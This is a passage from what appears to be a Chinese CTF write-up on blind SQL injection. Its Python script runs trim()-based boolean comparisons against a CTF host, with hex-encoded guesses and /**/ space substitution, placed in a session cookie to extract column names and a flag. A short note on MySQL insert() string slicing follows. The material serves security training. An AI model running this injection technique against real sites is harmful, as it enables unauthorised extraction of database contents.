 ```plsql
burp0_url = "http://eci-2ze2ptl1d7s4w0vn6x9d.cloudeci1.ichunqiu.com:8888/home"
burp0_cookies = {"Hm_lvt_2d0601bd28de7d49818249cf35d95943": "1636507075", "__jsluid_h": "c7d0c61afe2b3dd7eaeaa660783dab2d", "session": ".eJxdjEEOgzAMBL9i-YzInVufElGDLYUY2Q4IVf17A8dKe5ud-aB40VUqTmGNBtxlxgnHMf1tN52TU1kS1UNMK_av6SKFvAuv9yZVPCyHGjQnG-CUYAgmYFmZPCC3YDWJC0If4JcHbb10C72S7wp-fyh_MkQ.YbSA5Q.vuB7TdIOHJjOxeb0QJe13mBgRkw"}
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8", "Connection": "close"}

def text2hex(s):
    res = ""
    for i in s:
        res += hex(ord(i)).replace("0x", "")
    return "0x" + res

select = 'select group_concat(column_name) from information_schema.columns where table_schema=0x637466'
select = 'select group_concat(f1aggggggg) from flagggishere'
# f1aggggggg
# table flagggishere
res = 'flag{'
for i in range(1,200):
    for ch in range(40, 128):
        payload = f"""' or trim(leading {text2hex(res+chr(ch))} from ({select}))=trim(leading {text2hex(res+chr(ch+1))} from ({select}))='1""".replace(' ', '/**/')
        burp0_cookies['session'] = getsession(payload)
        r = req.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
        try:
            if 'Who are you?' in r.text.split('''<h2>Profiles:''')[1]:
                res += chr(ch+1)
                print("[*] 注入成功", res)
                break 
            else:
                print(ch)
        except Exception as e:
            print(r.text)

        if ch == 127:
            print("[*] 注入完成")
            exit(0)
```
### insert(string, start, length, replacement)
是个字符串替换的函数<br />![image.png](./images/20231017_2354093662.png)<br />字符串截取方法
```plsql
SELECT insert((insert(目标字符串,1,截取的位数,'')),2,9999999,''); # 这里截取的位数从0开始数
```
# 比较方法